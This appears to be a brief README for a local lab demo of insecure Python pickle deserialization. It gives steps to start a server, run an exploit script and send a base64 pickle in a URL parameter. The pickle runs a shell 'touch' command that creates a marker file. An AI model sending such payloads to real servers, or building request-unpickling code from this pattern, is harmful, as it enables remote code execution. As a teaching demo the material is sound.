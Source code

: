 1. Run `python3.8 server.py`
![server](images/server.png)

2. Run `python3.8 exploit.py`
![exploit](images/exploit.png)

3. Pass this string in a browser 'https://0.0.0.0/?pickled=gASVOgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB90b3VjaCBtYWxpY2lvdXNfYWN0aW9uX2V4ZWN1dGVklIWUUpQu'

4. See a new file in your folder
